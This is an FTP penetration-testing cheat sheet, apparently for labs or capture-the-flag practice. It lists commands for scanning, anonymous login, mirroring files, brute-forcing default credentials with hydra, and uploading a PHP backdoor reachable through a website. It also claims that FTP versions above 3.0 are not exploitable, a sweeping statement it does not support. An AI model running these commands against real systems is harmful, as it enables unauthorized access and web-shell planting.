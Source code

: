 
## FTP

Complete scan:
```
nmap --script=ftp-* -p 21 $ip
```

Anonymous Login:
```
ftp -aA4 {IPv4}
```

Download all files:
```
wget -m ftp://anonymous:anonymous@10.10.10.98
mget *
```

After download files always use:

```
exiftool –u -a <filename>
```

Bruteforce Default Credentials:
```
hydra -V -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 192.168.157.46 ftp
```

Get user running:
```
user
```

If dir or ls do not work:

```
passive
```

Other modes:

```
binary #Set transmission to binary instead of ascii
ascii #Set transmission to ascii instead of binary
```

Put file (check if you can access it on the website):
💡 In FTP, binaries in ASCII mode will make the file not executable. Set the mode to `binary`.

```js
echo "test" > test.txt
put test.txt
put ~/Desktop/share/php/html-php-backdoor.php html-php-backdoor.php
```

Search for version online for vulnerabilities:

- FTP version above 3.0 not exploitable

